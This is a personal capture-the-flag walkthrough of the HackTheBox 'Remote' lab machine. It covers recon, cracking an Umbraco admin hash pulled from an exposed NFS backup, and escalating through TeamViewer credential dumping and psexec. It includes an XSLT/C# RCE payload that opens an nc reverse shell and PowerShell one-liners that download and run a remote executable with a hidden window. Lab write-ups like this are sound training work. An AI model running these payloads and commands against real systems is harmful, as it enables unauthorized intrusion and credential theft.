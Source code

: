 # CTF Writeup: HackTheBox - [Remote](https://www.hackthebox.eu/home/machines/profile/234)

In 2020 (thanks to COVID lockdowns), I started working on HackTheBox challenges. So far I have pwned/rooted 7 machines and it is too much fun! I finally got some time to go through my notes and decided to write this brief walkthrough to the [Remote](https://www.hackthebox.eu/home/machines/profile/234) machine.

This is not going to be a full wript-up with detailed steps, I am just going to skip over to most interesting findings. It goes without saying that there was hours of research between each stage and a lot of learning.

### Starting off with an NMAP Scan:

```
ports=$(sudo nmap -p- --min-rate=1000 -T4 10.10.10.180 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
sudo nmap -sC -sV -p$ports 10.10.10.180
```
We get a huge list of open ports and services:

```
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|_  SYST: Windows_NT
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       2-4 (RPC #100000)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  mountd        1-3 (RPC #100005)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-05-31T11:01:30
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 84.11 seconds

```

As usual, I went through most of the well known ports to explore the attack surface:
- Start dirbuster on web applications
- Start manually browsing the web content
- Attempt manual connections to ftp and mountd services
- Fire up msfconsole and run some recon against netbios and rpc

I hit two interesting leads in the recon:
- Dirbuster found bunch of content on port 80

  ```
  GENERATED WORDS: 4612

  ---- Scanning URL: http://10.10.10.180/ ----
  + http://10.10.10.180/about-us (CODE:200|SIZE:5441)
  + http://10.10.10.180/blog (CODE:200|SIZE:5001)
  + http://10.10.10.180/Blog (CODE:200|SIZE:5001)
  + http://10.10.10.180/contact (CODE:200|SIZE:7880)
  + http://10.10.10.180/Contact (CODE:200|SIZE:7880)
  + http://10.10.10.180/home (CODE:200|SIZE:6703)
  + http://10.10.10.180/Home (CODE:200|SIZE:6703)
  + http://10.10.10.180/install (CODE:302|SIZE:126)
  + http://10.10.10.180/intranet (CODE:200|SIZE:3323)
  + http://10.10.10.180/master (CODE:500|SIZE:3420)
  + http://10.10.10.180/people (CODE:200|SIZE:6739)
  + http://10.10.10.180/People (CODE:200|SIZE:6739)
  + http://10.10.10.180/person (CODE:200|SIZE:2741)
  + http://10.10.10.180/product (CODE:500|SIZE:3420)
  + http://10.10.10.180/products (CODE:200|SIZE:5328)
  + http://10.10.10.180/Products (CODE:200|SIZE:5328)
  + http://10.10.10.180/umbraco (CODE:200|SIZE:4040)
  ```
- Umbraco is a CMS so I used a [Umbraco discovery wordlist](https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content/CMS) and discovered the login page 

  ` http://10.10.10.180/umbraco#/login/false?returnPath=%252Fumbraco`
- Second important discovery:
  - I was able to mount a volume using the mountd service

    `mount 10.10.10.180:/site_backups site_backups/`
  - It contained a directory called `App_data` with file `Umbraco.sdf`
  - A quick google search reveals it's a database file
  - Not sure how to open this file, I just drag and dropped it into my VSCode editor and instantly noticed a plain text string in load of garbage 

      `Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}`
  - BAM! There it is, the SHA1 hash for the Umbraco Administrator's password. But how do I crack it?
  - Well, I just googled how to crack SHA1 hash, in top results I see `https://crackstation.net/`, paste the hash into this website, and BAM! `baconandcheese` is the password!
  - Login to the Umbraco CMS as admin
 
### Umbraco Remote Code Execution
 
* Next step is to somehow get code execution. So I re-visited exploit-db and noticed [Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution](https://www.exploit-db.com/exploits/46153) exploit. The word authenticated caught my eye and I was quite sure this exploit has to work. Of course, it didn't work.
* After bit of tinkering with the payload, I modified it to obtain a reverse shell using nc back to my kali machine:

```
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = "10.10.14.23:4449"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "nc.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> '
```
Got the user flag `type c:\Users\Public\user.txt`

### Privilege Escalation

Now for finding privilege escalation to root, I spent too much time looking around the system and finding missing patches, etc but no luck. Hmm, the name of the machine is `remote` so there must be a remote access service that we can exploit. Did some service enumeration and found that TeamViewer is running. That's probably the way in.

* In Metasploit, I noticed `windows/gather/credentials/teamviewer_passwords` module. So I spent the time to now get a proper shell into my msfconsole. I ended up using following commands in my existing reverse shell:

```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.25:8000/rshell.exe');"

powershell.exe -command PowerShell -ExecutionPolicy bypass -noprofile -windowstyle hidden -command (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.25:8000/rshell.exe',"$env:APPDATA\rshell.exe");Start-Process ("$env:APPDATA\rshell.exe")
```

* Once I had the session in msfconsole, I run the `windows/gather/credentials/teamviewer_passwords` module and BAM!

  ```
  TeamViewer Client ID - 1769137322
  Unattended Password: !R3m0te!
  ```
  
* Now, I tried many ways to use these credentials to actually connect to the target machine using TeamViewer client but it did not work. I could not figure out what was going on. So I slept over it.
* Next day, I was working and spent most of my day in Zoom meetings with my colleagues. At one point, there were disucssions about a phishing incident and re-using passwords. After tiring day of Zoomming, as I was recollecting my thoughts I realized the risks of **re-using passwords** and how it may be the trick in this HackTheBox challenge. 
* It would be too easy I said to myself, but decided to give it a try anyway. Fired up msfconsole, 

```
msfconsole> use windows/smb/psexec
msfconsole> set SMBUSer administrator
msfconsole> set SMBPass !R3m0te!

msfconsole> exploit
```

and BAM! I could not believe it worked. And as easy as that, we get the administrator access and the root flag!

